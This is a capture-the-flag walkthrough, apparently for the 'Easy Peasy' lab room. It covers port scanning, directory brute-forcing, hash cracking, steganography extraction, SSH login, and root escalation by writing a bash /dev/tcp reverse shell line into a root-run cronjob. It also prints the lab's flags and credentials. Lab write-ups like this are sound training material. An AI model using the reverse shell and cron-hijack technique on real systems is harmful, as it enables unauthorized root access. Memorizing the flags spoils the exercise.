




# Easy Peasy

## Description

Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

Deploy the machine attached to this task and use nmap to enumerate it.

## [Task 1] Enumeration through Nmap

### Initial Scan

Let's start with a full port Nmap scan:

~~~
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
~~~

The scan reveals three open ports which two of the services are running on uncommon ports.

Open ports: `3`

Nginx version: `1.16.1`

Highest port runs: `Apache`

## [Task 2] Compromising the machine

### Flag 1

I ran `gobuster` on port 80 and found `/hidden` and after running it on this directory, I found `/hidden/whatever/`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Easy_Peasy]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/hidden/ -x zip,txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.79/hidden/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/10/16 03:47:38 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 390]
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.141.79/hidden/whatever/]
~~~

After checking this directory's source code, I found the 1st flag as a base64 encoded string:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Easy_Peasy]
└─$ curl -s "http://$IP/hidden/whatever/"
<!DOCTYPE html>
<html>
<head>
<title>dead end</title>

</head>
<body>

ZmxhZ3tmMXJzN19mbDRnfQ==
    <------------

</body>
</html>
                                                                                                                      
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Easy_Peasy]
└─$ echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d            
flag{f1rs7_fl4g}
~~~

Flag 1: `flag{f1rs7_fl4g}`

### Flag 2

Now let's head to the other http port which is 65524. It is the default page of Apache2. The first thing I checked was `/robots.txt` and luckily, I found an MD5 hash which was the second flag.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Easy_Peasy]
└─$ curl -s "http://$IP:65524/robots.txt"             
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250  <----------------
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
~~~

I used [this](https://md5hashing.net/hash/md5/) website to decrypt it and now we have the second flag:

Flag 2: `flag{1m_s3c0nd_fl4g}`

### Flag 3

If you take a closer look at the content of the main page, you can spot the 3rd flag:

The description says that we need to decrypt the hash using the included wordlist but we don't need to do that cuz it accepts the flag like this.

Flag 3: `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

### Hidden Directory

If you take look at the source code you can spot an encoded string.

We are hinted that this string is encoded with some kind of Base. After trying some of usual ones, I found out that it is Base62. I used [CyberChef](https://gchq.github.io/CyberChef/) to decode it and now we have the hidden directory:

Hidden directory: `/n0th1ng3ls3m4tt3r`

### Password of the Image

After navigating to this directory, we can see an image with a black background. In the source code there is a hash. I guess that there is something hidden in the image, so I downloaded it and realized that I'm right:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ curl -s "http://$IP:65524/n0th1ng3ls3m4tt3r/" | tail
	}
</style>
</head>
<body>

940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

</body>
</html>
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ wget http://$IP:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
--2021-10-16 05:21:17--  http://10.10.141.79:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
Connecting to 10.10.141.79:65524... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90158 (88K) [image/jpeg]
Saving to: ‘binarycodepixabay.jpg’

binarycodepixabay.jpg         100%[===============================================>]  88.04K   134KB/s    in 0.7s    

2021-10-16 05:21:18 (134 KB/s) - ‘binarycodepixabay.jpg’ saved [90158/90158]

                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ steghide extract -sf binarycodepixabay.jpg
Enter passphrase: 
steghide: could not extract any data with that passphrase!

~~~

It asks for a passphrase. I guess that the hash we saw, is the passphrase for extracting the file(s) inside the image. I saved the hash and used the included wordlist and `john` to crack the hash. Btw, the hash is encrypted with **Gost** method:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ john --format=Gost --wordlist=./easypeasy.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?)  <-------------------
1g 0:00:00:00 DONE (2021-10-16 05:28) 50.00g/s 204800p/s 204800c/s 204800C/s vgazoom4x..flash88
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Password: `mypasswordforthatjob`

### SSH Creds

Now we can extract the file(s) inside the image. I used `steghide` to do so:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ steghide extract -sf binarycodepixabay.jpg
Enter passphrase: 
wrote extracted data to "secrettext.txt".
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ cat secrettext.txt                                  
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
~~~

We got the username but the password is in binary. There are many online tools that do the job for you. Use one of them and the result is the SSH password.

SSH password: `iconvertedmypasswordtobinary`

### User Flag

Now that we have SSH creds (`boring:iconvertedmypasswordtobinary`), we can connect ot the machine via ssh (Don't forget to specify the port):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ ssh boring@$IP -p6498                     

[REDACTED]

boring@kral4-PC:~$ id
uid=1000(boring) gid=1000(boring) groups=1000(boring)
~~~

The user flag is in our home directory but it is encoded:

~~~
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
~~~

The letters are rotated. I used [this](https://rot13.com/) website to decode it. It is encoded with the good old ROT13.

User flag: `flag{n0wits33msn0rm4l}`

### Going Root

In order to obtain the root flag, we need to gain root access. We can't run sudo but I found a cronjob in `/etc/crontab`:

~~~
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
~~~

This cronjob is an empty bash file (`/var/www/.mysecretcronjob.sh`) being ran by root so if we change the content of it with a reverse shell, we can obtain a root shell. Fortunately it is owned by us, so we can easily modify it. I replaced the content of it with a bash reverse shell and opened a listener and waited for a little while and I got a root shell:

~~~
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
boring@kral4-PC:~$ ls -la /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
~~~

On my machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.25] from (UNKNOWN) [10.10.141.79] 50934
bash: cannot set terminal process group (1765): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
~~~

### Root Flag

Now we can easily head to `/root` and read the root flag:

~~~
root@kral4-PC:~# cd /root
root@kral4-PC:~# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Oct 16 02:50 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
~~~

Root flag: `flag{63a9f0ea7bb98050796b649e85481845}`

# D0N3!  ; )

Thanks to the creator(s)! 

Hope you had fun.

Have a g00d one! : )